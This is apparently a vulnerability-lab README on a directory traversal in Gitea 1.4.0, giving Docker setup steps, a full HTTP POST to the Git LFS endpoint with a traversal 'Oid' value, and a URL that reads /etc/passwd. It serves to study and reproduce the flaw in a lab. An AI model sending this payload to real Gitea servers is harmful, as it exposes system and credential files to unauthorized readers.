 # Gitea 1.4.0 Directory Traversal Leading to Remote Command Execution

[中文版本(Chinese version)](README.zh-cn.md)

Gitea is an open-source project forked from Gogs, providing a self-hosted platform similar to Github and Gitlab for managing Git repositories with multiple users. In version 1.4.0, there is a logic error that allows unauthorized users to traverse directories, read and write arbitrary files, ultimately leading to arbitrary command execution.

References:

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## Environment Setup

Execute the following command to start the vulnerable Gitea 1.4.0:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:3000` to enter the installation page. Fill in the administrator account and password, modify the website URL, and keep other settings as default. (Do not modify the port number)

After installation, create a public repository and add some files to it (for example, initialize the repository with selected files and templates):

![](1.png)

Then, you need to execute `docker compose restart` to restart the Gitea service. (For the reason, see the second reference link)

## Vulnerability Reproduction

Since the vulnerability chain is quite complex overall, we will only reproduce the file reading part. For the remaining exploitation methods, please refer to the second reference link.

Open Gitea, find the public project you just created, such as `vulhub/repo`, and send the following data packet to add a Git LFS object:

```
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

Then, visit `http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`, and you can see that `/etc/passwd` has been successfully read:

![](2.png)
